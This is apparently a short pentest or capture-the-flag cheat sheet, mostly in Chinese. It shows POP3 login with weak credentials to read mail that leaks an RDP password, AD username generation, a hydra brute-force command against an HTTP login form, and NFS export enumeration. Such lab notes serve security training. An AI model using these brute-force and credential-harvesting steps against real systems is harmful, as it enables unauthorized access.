```
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```


## 猜用户名
发现这个用户名生成工具非常好用 AD-Username-Generator
https://github.com/mohinparamasivam/AD-Username-Generator

python3 AD-Username-Generator/username-generate.py -u users.txt -o users_list.txt

## 猜密码
默认密码如果没头绪可以在kali的这个folder下面找找有没有存有的默认凭证
/usr/share/wordlist/seclist/Password

爆破的话
hydra -L usernames.txt -P passwords.txt $IP -s 8081 http-post-form '/service/rapture/session:username=^USER64^&password=^PASS64^:Forbidden'


## Mount Port 2049
查看mount端点
Showmount -e $IP 

┌──(kali㉿kali)-[/mnt]
└─$ showmount -e 192.168.1.161
Export list for 192.168.1.161:
/home/ll104567 *


## Java版本变更
sudo update-alternatives --config java
